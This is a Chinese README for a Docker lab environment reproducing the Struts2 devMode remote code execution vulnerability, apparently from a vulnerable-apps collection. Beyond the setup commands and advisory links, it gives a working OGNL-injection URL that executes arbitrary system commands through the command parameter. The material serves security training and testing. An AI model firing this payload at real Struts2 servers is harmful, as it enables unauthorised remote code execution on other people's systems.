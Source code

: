 ## Struts2 S2-devMode 漏洞环境

### 说明

 直接使用本仓库中的 s2-037 漏洞环境

### 漏洞信息

 * [漏洞预警：Struts2 devMode导致远程代码执行漏洞](http://www.freebuf.com/news/108924.html)

 * [Struts2漏洞利用工具Devmode版](http://www.freebuf.com/sectool/108896.html)

 > 评价：该漏洞属于配置错误导致的漏洞

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-devmode
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-devmode
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `https://你的 IP 地址:端口号/`

#### Exp

假定启动后的地址为：http://127.0.0.1:8080/

执行 id 命令：

```
http://127.0.0.1:8080/orders/?debug=browser&object=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
```

> 修改参数 command 的值为你要执行的命令

![](./exp-1.png)

### 参考链接

![S2-DevMode_CmdToolExP - coffeehb/Some-PoC-oR-ExP](https://github.com/coffeehb/Some-PoC-oR-ExP/blob/master/Struts2/S2-DevMode_CmdToolExP.py)
